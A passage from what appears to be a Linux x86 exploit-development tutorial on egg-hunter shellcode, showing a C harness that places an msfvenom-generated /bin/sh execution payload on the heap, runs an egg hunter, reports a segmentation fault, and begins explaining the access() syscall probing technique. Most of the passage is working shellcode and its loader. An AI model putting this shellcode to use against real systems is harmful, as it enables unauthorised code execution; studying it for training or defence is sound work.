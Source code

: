 ```bash
```
  
Our three first segments are respectively the .text, .data, .bss segment. As we can see, we have no unreadable spaces between them.  
If a memory segment was unreadable, we would have had a segmentation fault (SIGSEGV - Signal Segmentation Violation).  
  
Let's try now to place our egg shellcode in the heap space (we keep the same egg hunter):  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EGGMARK "\x50\x90\x50\x90"

unsigned char egghunter[] = \
"\xb8\x60\x80\x04\x08\xbb\x91\x50\x90\x50\x4b\x40\x39\x18\x75\xfb\xff\xe0";

unsigned char egg[] = \
EGGMARK
"\xbd\x64\xb2\x0c\xf4\xda\xc2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1" // msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b \x00
"\x0b\x83\xc2\x04\x31\x6a\x11\x03\x6a\x11\xe2\x91\xd8\x07\xac"
"\xc0\x4f\x7e\x24\xdf\x0c\xf7\x53\x77\xfc\x74\xf4\x87\x6a\x54"
"\x66\xee\x04\x23\x85\xa2\x30\x3b\x4a\x42\xc1\x13\x28\x2b\xaf"
"\x44\xdf\xc3\x2f\xcc\x4c\x9a\xd1\x3f\xf2";

void main()
{

	char *shellcode_heap = malloc(sizeof(egg)); // shellcode egg + egg mark
	memcpy(shellcode_heap, egg, sizeof(egg));

	printf("Egg hunter shellcode Length:  %d\n", strlen(egghunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode_heap));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
  
Running and executing it:  
```bash
# ./shellcode_heap
Egg hunter shellcode Length:  18
Egg shellcode Length:  74
Erreur de segmentation
```
  
We met a segmentation violation because our egg hunter faces a memory access violation.  
However a technique consists in using the **access** system call that originally check users permissions for a file. Giving our memory address as the first argument, we will be able to check if a memory page is accessible. If not, the syscall will return EFAULT (14) into EAX:  
```
int access(const char *pathname, int mode);
```
  